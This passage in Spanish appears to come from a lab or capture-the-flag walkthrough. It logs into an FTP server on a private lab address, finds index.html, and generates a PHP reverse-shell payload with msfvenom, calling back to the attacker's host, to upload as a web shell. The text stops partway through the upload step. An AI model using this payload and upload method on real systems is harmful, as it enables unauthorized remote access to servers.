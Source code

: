     ```bash
    ftp 10.0.3.21 
    ```
    
    `ls`
    
    ![image.png](./imagenes/image%2052.png)
    
    Listamos fichero y vemos un **index.html** que suele ser la pagina de inicio de una web. Salimos con `exit`.
    

- Vamos a crear un Payload con msfvenom.
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.0.3.4 LPORT=443 -f raw > pwned.php  
    ```
    
    ![image.png](./imagenes/image%2053.png)
    

- Volvemos a entrar en el FTP y hacemos un `put` del archivo que acabamos de crear.
    
    ```bash
    ftp 10.0.3.21
    ```
    